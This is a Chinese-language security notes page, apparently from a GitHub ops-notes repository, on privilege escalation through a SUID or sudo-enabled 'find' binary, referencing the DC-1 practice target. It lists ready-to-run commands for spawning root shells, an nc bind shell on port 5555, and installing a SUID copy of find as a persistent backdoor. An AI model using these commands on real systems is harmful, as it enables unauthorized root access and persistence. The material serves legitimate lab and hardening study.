


# find 提权

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%9D%83%E9%99%90%E7%AE%A1%E7%90%86-find%20%E6%8F%90%E6%9D%83.md)

```
ls -al /usr/bin/find
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
```

> 实用程序find用来在系统中查找文件。同时，它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。

比如：DC -1 靶机就是利用find 命令进行root 用户来执行命令



大部分Linux 系统都安装了nc。使用如下命令即可成功得到root shell：

```
find / -type f -exec /bin/bash \;
或
find / -exec nc -lvp 5555 -e /bin/sh \;
nc ip port
```

测试：

```
chomod u+s /usr/bin/find   #chmod u+s  给某个程序的所有者suid权限。
```



## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

- ```
find . -exec /bin/sh \; -quit

```
## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- ```
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- ```
sudo find . -exec /bin/sh \; -quit

```
```
